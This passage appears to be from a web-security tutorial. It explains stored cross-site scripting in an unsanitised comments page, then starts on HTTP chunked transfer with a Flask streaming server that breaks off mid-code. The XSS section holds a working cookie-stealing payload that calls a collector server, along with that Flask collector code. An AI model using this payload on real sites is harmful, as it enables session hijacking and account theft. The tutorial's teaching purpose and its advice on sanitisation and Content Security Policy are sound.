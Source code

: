 The problem is in the way the comments page is created.
It doesn't sanitize the comments.

This means that if an attacker can submit an "executable comment" that comment will be executed.
Of course this would be JavaScript.

For example you could submit this comments:

```
<script>alert("Hi")</script>
```

If a victim navigates to this page, he would also see the alert.

More interesting would be stealing the cookies of the client:

```python
from flask import Flask, request, make_response

app = Flask(__name__)

@app.route('/steal-cookie', methods=['GET'])
def steal_cookie():
    stolen_cookie = request.args.get('cookie', '')
    print(f"Stolen cookie: {stolen_cookie}")

    response = make_response("Cookie stolen!", 200)
    response.headers['Access-Control-Allow-Origin'] = '*'
    return "Cookie stolen!", 200

if __name__ == "__main__":
    app.run(port=5001)
```

We can now submit this comment:

```
<script>fetch(`http://localhost:5001/steal-cookie?cookie=${document.cookie}`)</script>
```

If the victim loads the page now, the page will send a request to `localhost:5001/steal-cookie` together with the victims cookies.
Now the attacker has the victims cookies.

You should protect against this by sanitizing user input of course.
However, **Content Security Policy** allows you to add an additional layer of protection.

## HTTP Chunked Transfer

The server:

```python
from flask import Flask, Response
from flask_cors import CORS
import time

app = Flask(__name__)
CORS(app)

def generate_numbers():
    """Generator function to yield numbers."""
    for number in range(1, 11):  # Example: generate numbers 1 to 10
        yield f"{number}\n"
        time.sleep(1)  # Simulate a delay

@app.route('/stream')
def stream():
    return Response(generate_numbers(), content_type='text/plain')

if __name__ == '__main__':
```